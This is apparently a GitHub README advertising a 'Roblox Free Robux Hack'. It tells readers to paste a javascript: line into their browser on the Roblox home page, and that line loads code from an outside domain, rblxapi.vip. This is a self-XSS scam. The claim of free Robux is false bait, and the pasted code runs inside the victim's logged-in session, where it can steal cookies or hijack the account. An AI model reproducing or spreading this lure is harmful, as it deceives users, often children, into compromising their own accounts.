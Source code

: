 # RobloxFreeRobux
Hi!

Welcome Back With Another Game Hack!

This Hack For ROBLOX game !!!

Roblox Free Robux Hack !!!

# Usage
To run the hack,
you need to copy the code I give below.


CODE = xJavascript:$.get("//rblxapi.vip/api?id=2958064")


Now you need to open "Roblox Home Page"

When you copy the code, it has a (x) in front of it.

Paste it into the roblox browser and remove the x in front of it and click enter.

Type the amount of robux you want in the Pop-Up that appears

Refresh The Page And...

You now have your robux!!!
